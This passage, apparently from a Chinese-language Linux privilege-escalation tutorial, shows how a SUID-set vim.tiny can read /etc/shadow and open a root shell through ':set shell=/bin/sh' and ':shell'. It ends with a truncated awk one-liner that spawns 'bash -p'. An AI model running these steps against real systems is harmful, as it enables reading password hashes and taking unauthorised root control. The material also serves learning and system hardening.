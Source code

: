 Vim的主要用途是用作文本编辑器， 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。
```
# 直接查看 shadow 文件会报错
cat /etc/shadow
cat: /etc/shadow: Permission denied
```
```
# 使用vim.tiny编辑成功
vim.tiny /etc/shadow
```

此外，我们还可以通过Vim运行shell来执行只有root才能完成的操作。

```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```
awk 'BEGIN {system("/bin/bash -p")}